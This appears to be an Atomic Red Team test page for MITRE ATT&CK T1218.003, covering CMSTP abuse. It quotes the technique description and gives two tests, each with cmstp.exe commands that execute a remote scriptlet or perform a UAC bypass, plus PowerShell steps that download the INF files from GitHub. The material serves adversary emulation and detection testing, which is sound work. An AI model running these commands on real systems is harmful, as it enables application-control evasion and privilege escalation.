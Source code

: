 # T1218.003 - Signed Binary Proxy Execution: CMSTP
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1218/003)
<blockquote>Adversaries may abuse CMSTP to proxy execution of malicious code. The Microsoft Connection Manager Profile Installer (CMSTP.exe) is a command-line program used to install Connection Manager service profiles. (Citation: Microsoft Connection Manager Oct 2009) CMSTP.exe accepts an installation information file (INF) as a parameter and installs a service profile leveraged for remote access connections.

Adversaries may supply CMSTP.exe with INF files infected with malicious commands. (Citation: Twitter CMSTP Usage Jan 2018) Similar to [Regsvr32](https://attack.mitre.org/techniques/T1218/010) / ”Squiblydoo”, CMSTP.exe may be abused to load and execute DLLs (Citation: MSitPros CMSTP Aug 2017)  and/or COM scriptlets (SCT) from remote servers. (Citation: Twitter CMSTP Jan 2018) (Citation: GitHub Ultimate AppLocker Bypass List) (Citation: Endurant CMSTP July 2018) This execution may also bypass AppLocker and other application control defenses since CMSTP.exe is a legitimate binary that may be signed by Microsoft.

CMSTP.exe can also be abused to [Bypass User Account Control](https://attack.mitre.org/techniques/T1548/002) and execute arbitrary commands from a malicious INF through an auto-elevated COM interface. (Citation: MSitPros CMSTP Aug 2017) (Citation: GitHub Ultimate AppLocker Bypass List) (Citation: Endurant CMSTP July 2018)</blockquote>

## Atomic Tests

- [Atomic Test #1 - CMSTP Executing Remote Scriptlet](#atomic-test-1---cmstp-executing-remote-scriptlet)

- [Atomic Test #2 - CMSTP Executing UAC Bypass](#atomic-test-2---cmstp-executing-uac-bypass)


<br/>

## Atomic Test #1 - CMSTP Executing Remote Scriptlet
Adversaries may supply CMSTP.exe with INF files infected with malicious commands

**Supported Platforms:** Windows


**auto_generated_guid:** 34e63321-9683-496b-bbc1-7566bc55e624





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| inf_file_path | Path to the INF file | Path | PathToAtomicsFolder&#92;T1218.003&#92;src&#92;T1218.003.inf|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cmstp.exe /s #{inf_file_path}
```




#### Dependencies:  Run with `powershell`!
##### Description: INF file must exist on disk at specified location (#{inf_file_path})
##### Check Prereq Commands:
```powershell
if (Test-Path #{inf_file_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{inf_file_path}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.003/src/T1218.003.inf" -OutFile "#{inf_file_path}"
```




<br/>
<br/>

## Atomic Test #2 - CMSTP Executing UAC Bypass
Adversaries may invoke cmd.exe (or other malicious commands) by embedding them in the RunPreSetupCommandsSection of an INF file

**Supported Platforms:** Windows


**auto_generated_guid:** 748cb4f6-2fb3-4e97-b7ad-b22635a09ab0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| inf_file_uac | Path to the INF file | Path | PathToAtomicsFolder&#92;T1218.003&#92;src&#92;T1218.003_uacbypass.inf|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cmstp.exe /s #{inf_file_uac} /au
```




#### Dependencies:  Run with `powershell`!
##### Description: INF file must exist on disk at specified location (#{inf_file_uac})
##### Check Prereq Commands:
```powershell
if (Test-Path #{inf_file_uac}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{inf_file_uac}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.003/src/T1218.003_uacbypass.inf" -OutFile "#{inf_file_uac}"
```




<br/>
